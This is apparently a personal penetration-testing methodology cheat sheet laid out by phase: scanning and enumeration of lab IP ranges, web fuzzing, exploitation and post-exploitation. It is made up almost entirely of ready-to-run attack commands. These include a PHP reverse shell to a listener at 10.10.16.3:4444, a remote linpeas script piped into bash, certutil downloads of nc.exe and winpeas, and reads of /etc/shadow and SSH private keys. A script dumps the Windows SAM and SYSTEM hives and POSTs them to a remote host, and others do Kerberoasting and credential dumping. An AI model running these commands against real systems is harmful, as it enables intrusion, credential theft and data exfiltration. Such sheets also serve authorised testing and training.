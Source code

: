 
My Methodology


<details Host Discovery (External)>Host Discovery (External)</details>
━━━━━━━━━━━━━━━━━━━━━━━━━   
fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done


Host Discovery (Internal)
━━━━━━━━━━━━━━━━━━━━━━━━━
fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done


Service Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password

for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
    do mkdir -p "/dev/shm"/mnt"$x"
    sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
    tree -puga "/dev/shm"/mnt"$x"
done


Web Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Technology Discovery
whatweb http://10.10.110.100

[*] WordPress Discovery
wpscan --url http://10.10.110.100/wordpress --enumerate

[*] Directory Discovery
ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] Directory Traversal
ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
-w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] XSS + SSTI
<img src=x>'"${{7*7}}

[*] Subdomain Discovery
gobuster vhost --append-domain -u example.com -k -r -t200 -q \
-w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
| grep -oP '(?<=Found: )[^ ]+'


Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Reverse Shells
<?php
$lhost = "10.10.16.3";
$lport = 4444;

exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
$sock = fsockopen($lhost, $lport);
if ($sock) {
    exec("sh <&3 >&3 2>&3");
}
?>

[*] Upgrade TTY
python3 -c 'import pty; pty.spawn("/bin/bash")';
CTRL-Z
stty size;stty raw -echo;fg
export SHELL=bash;
export TERM=xterm-256color;
stty rows <num> columns <num>
reset


Post Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Linux
ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
netstat -tuln
ls -la /opt
sudo -l
find / -perm /4000 2>/dev/null
grep -r -E 'conf' /var/www
cat ~/.ssh/id_rsa
cat /etc/shadow
curl xxxxxxxxxx:8088/linpeas.sh | bash
GTFO bins

[*] Windows
evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
cd C:\users
tree /f
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"

click.url
[InternetShortcut]
URL=C:\programdata\shell.bat

meterpreter > use priv
meterpreter > getsystem

nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
'
powershell -c rm *.SAV
powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
powershell -c reg save HKLM\SAM SAM.SAV
powershell -c compress-archive *.SAV SAM.zip
powershell -c dir
iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
'; unzip -o SAM.zip; \
impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV

powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
powershell Import-Module C:\programdata\powerview.ps1
Get-NetDomain
Get-LocalUser
Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
